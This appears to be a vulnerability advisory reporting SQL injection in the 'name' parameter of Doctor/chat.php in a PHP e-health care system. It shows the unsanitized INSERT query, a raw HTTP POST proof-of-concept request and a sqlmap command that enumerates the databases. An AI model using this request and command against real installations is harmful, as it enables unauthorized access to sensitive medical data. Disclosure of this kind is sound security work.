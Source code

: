 # E-Health Care System IN PHP has sql injection vulnerability via name parameter in chat.php.

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
Doctor/chat.php and name parameters
## describe
There are unrestricted SQL injection attacks in the E-Health Care System. Controllable parameters: name .

In chat.php.php, there are no filter parameters, and there is no restriction on the execution of concatenated SQL statements, resulting in SQL injection vulnerabilities. You can obtain sensitive information from the database

## code analysis
The $name parameters of the chat.php are not filtered and concatenated into the SQL statement for execution when attacker is not logining.

![image-20241104132441881](https://github.com/user-attachments/assets/ba8c4e50-7184-4c42-999e-441734fe7b88)

```
  <?php
	if (isset($_POST['submit'])) {
	$name = $_POST['name'];
	$message = $_POST['message'];
		$query ="INSERT INTO chat ( name , message) values ('$name' , '$message')";
		$run =$db->query($query);
		if($run){
		echo" <embed loop='false' src='chat.wav' hidden= 'true' autoplay='true' />";
		}
	}
	?>
```

## POC

```
POST /Doctor/chat.php HTTP/1.1
Host: healthcare
Content-Length: 36
Cache-Control: max-age=0
Origin: http://healthcare
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://healthcare/Doctor/chat.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

name=1*&message=1&submit=Send+Message
```

save it as 1.txt

```
python sqlmap.py -r 1.txt --level 3 --risk 2 --dbs
```

Get the database_name: healthcare， and get all dbs.

![image-20241104132619664](https://github.com/user-attachments/assets/cc0243b0-f6d2-402e-b999-c485b9492ca1)

![image-20241103231338743](https://github.com/user-attachments/assets/c5c14b93-cdd7-47be-b65f-913e1ba78f5e)